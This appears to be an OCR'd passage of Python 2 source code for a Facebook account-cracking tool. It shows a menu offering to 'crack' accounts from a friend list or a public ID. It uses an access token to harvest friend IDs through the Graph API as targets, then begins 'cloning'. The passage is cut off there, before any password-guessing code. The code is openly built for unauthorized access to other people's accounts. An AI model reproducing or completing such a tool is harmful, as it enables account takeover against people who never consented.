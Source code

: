		login()
	os.system('clear')
	print logo
	print "\033[1;97m✧ \033[1;97m1.\x1b[1;96mCrack From Friend List."
	print "\033[1;97m✧ \033[1;97m2.\x1b[1;95mCrack From Public ID."
	print "\033[1;97m✧ \033[1;97m0.\033[1;94mBack."
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose Option ≻ \033[1;97m")
	if peak =="":
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;93m Please Wait"
		jalan('\033[1;97m[✔] Getting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m≻\033[1;97mLink ID\033[1;37m: \033[1;97m")
		
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;97m[✔] Name\033[1;97m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;97mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			super()
		print"\033[1;97m[✔] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
        
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	
	print "\033[1;91m[✔] Total Friends \033[1;97m: \033[1;97m"+str(len(id))
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93m[✔] Cloning Started\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
        print"""
[!] To Stop Process Press CTRL Then Z
